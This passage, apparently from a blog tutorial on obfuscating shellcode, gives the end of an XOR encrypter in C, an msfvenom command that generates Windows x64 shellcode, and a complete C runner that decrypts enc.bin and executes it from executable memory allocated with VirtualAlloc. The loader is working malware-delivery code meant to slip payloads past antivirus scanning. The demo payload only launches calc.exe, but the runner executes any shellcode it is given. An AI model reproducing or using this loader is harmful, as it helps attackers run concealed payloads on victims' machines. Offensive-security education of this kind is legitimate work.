 ```c
        sc_xor[i] = sc[i] ^ key;
    }
    printf("Writing to file...\n");
    fwrite(sc_xor, 1, stats.st_size, enc_file);
    printf("Done Writing!\n");

    fclose(enc_file);
    fclose(sc_file);
    free(sc_xor);
    free(sc);
}
```
{: file='encrypter.c'}

All that's left to do is create our shellcode.bin, we'll use msfvenom like we did before, but we'll output it to a file instead.

```console
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw > shellcode.bin
```

Awesome, now let's modify our runner to read and decrypt the enc.bin file.

### Decrypt and Run

Essentially, we'll perform the encrypter's flow in reverse, then execute our shellcode like before. 

Now that the shellcode is no longer hardcoded, we'll need to read in the enc.bin file. We'll also get the stats of the enc.bin file, so we can allocate memory for our character strings for the encrypted and raw shellcode. Once we read in the bytes from the file, we'll decrypt it using the same key as we used in our encrypter. 

After, the shellcode will be executed like before. Our new and improved runner, complete:

```c
#include <windows.h>
#include <stdio.h>
#include <sys/stat.h>

int main(int argc, char **argv) {
    
    unsigned char key = 5;
    FILE *enc_file;
    char input;
    struct stat stats;

    enc_file = fopen("enc.bin", "rb");
    stat("enc.bin", &stats);

    char* enc_sc = malloc(stats.st_size);
    char* sc = malloc(stats.st_size);

    fread(enc_sc, stats.st_size, 1, enc_file);

    for(int i = 0; i < stats.st_size; i++) {
        sc[i] = enc_sc[i] ^ key;    
    }

    void *exec = VirtualAlloc(0, stats.st_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    memcpy(exec, sc, stats.st_size);
    
    ((void(*)())exec)();
    
    fclose(enc_file);
    free(enc_sc);
```